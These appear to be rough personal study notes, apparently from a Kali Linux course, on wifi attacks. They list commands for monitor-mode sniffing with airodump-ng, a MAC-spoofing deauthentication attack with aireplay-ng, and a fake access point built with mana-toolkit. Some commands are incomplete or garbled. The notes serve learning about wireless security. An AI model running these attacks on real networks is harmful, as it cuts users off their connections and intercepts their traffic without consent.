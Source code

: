 # kali

iwconfig wlan0
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig wlan0
airodump-ng wlan0
'ctrl-c' stop sniffing
ID-power-beacons
airodump-ng --channel[channel] --bssid[] -write
airodump-ng --channel 2 --bssid[] --write test -apcwlan0 ???????????????
wireshark open file ??????????

deauth attack--disconnects device from network
spoof our MAC address to the target client MAC address (pretend to be him)
send deauthentication packet to router
simultaneously spook our MAC address to the access point MAC address (router) and tell the target client you need to re-authenticate yourself

airodump-ng --channel[] --bssid[] wlan0
aireplay-ng --deauth 10000 -a -c wlan0

Fake access point (honey pot)
apt-get install mana-toolkit
gedit /etc/mana-toolkit/host apd-mana.conf
gedit /usr/share/mana-toolkit/run-mana/start-nat-simple.sh
bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh
